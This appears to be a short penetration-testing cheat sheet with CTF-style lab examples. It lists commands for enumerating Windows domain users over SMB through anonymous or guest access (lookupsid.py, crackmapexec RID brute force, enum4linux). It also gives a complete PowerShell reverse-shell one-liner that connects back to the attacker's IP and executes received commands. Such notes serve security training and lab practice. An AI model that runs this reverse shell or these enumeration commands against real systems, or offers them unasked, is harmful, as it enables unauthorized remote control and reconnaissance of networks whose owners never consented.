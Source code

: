 **when enumerate smb shares and we have read access to ```IPC$``` share, We will be able to list the domain users as ```anonymous``` using different tools:**

1- ```lookupsid.py anonymous@<target ip>```<br>
#OR<br>
```lookupsid.py <username>@<target ip>``` #if we have valid creds <br>

2- ```crackmapexec smb <target ip> -u 'guest' -p '' --rid-brute```

----------------------------------------------------------------------------------------------------------------------

**if we do not know the domain name we could use ```crackmapexec``` to dump some cool information:**
```
crackmapexec smb <target ip>
                                                                  
SMB         10.10.250.17    445    VULNNET-BC3TCK1  [*] Windows 10.0 Build 17763 x64 (name:VULNNET-BC3TCK1) (domain:vulnnet.local) (signing:True) (SMBv1:False)
```
#OR 
Use ```enum4linux```:
```
enum4linux <target ip>
```
----------------------------------------------------------------------------------------------------------------------

**Powershell reverse shell**

```
$client = New-Object System.Net.Sockets.TCPClient('<OUR ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

----------------------------------------------------------------------------------------------------------------------

